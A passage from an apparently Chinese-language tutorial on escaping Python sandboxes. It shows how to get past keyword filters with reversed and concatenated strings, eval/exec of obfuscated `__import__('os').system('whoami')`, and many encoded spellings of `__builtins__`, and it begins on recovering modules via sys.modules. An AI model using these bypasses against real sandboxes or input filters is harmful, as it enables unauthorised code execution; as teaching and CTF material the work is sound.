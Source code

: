 ```Python
import sys
print(sys.path)
```

### 花式处理字符串

代码中要是出现 `os`，直接不让运行。那么可以利用字符串的各种变化来引入 `os`：

```Python
__import__('so'[::-1]).system('ls')


# 'so'[::-1] = 'os'，所以代码等效于 __import__('os').system('ls')
b = 'o'
a = 's'
__import__(a+b).system('ls')

# a+b = 'os'，所以代码等效于 __import__('os').system('ls')
```

还可以利用 `eval` 或者 `exec`：

```Python
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1]) 
# ')"imaohw"(metsys.)"so"(__tropmi__' 逆转过来是 '__import__("os").system("whoami")'
# eval 后就相当于执行了 __import__("os").system("whoami")
macr0phag3
0
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
macr0phag3
```

eval、exec 都是相当危险的函数，**exec 比 eval 还要危险，它们一定要过滤**，因为字符串有很多变形的方式，对字符串的处理可以有：逆序、拼接、base64、hex、rot13...等等，太多了。。。

```Python
['__builtins__'] == 
['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f'] == 
[u'\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f'] == 
['X19idWlsdGluc19f'.decode('base64')] ==  # 这一行似乎只有 py2.x 可以用
['__buil'+'tins__'] == 
['__buil''tins__'] == 
['__buil'.__add__('tins__')] == 
["_builtins_".join("__")] == 
['%c%c%c%c%c%c%c%c%c%c%c%c' % (95, 95, 98, 117, 105, 108, 116, 105, 110, 115, 95, 95)]
...
```

你看看最后那个格式化字符串，这不是直接起飞？啥字符构造不了

### 恢复 sys.modules

`sys.modules` 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 `os` 是默认被加载进来的，但是不能直接使用（但是可以通过 `sys.modules` 来使用，例如 `sys.modules["os"]`），原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。
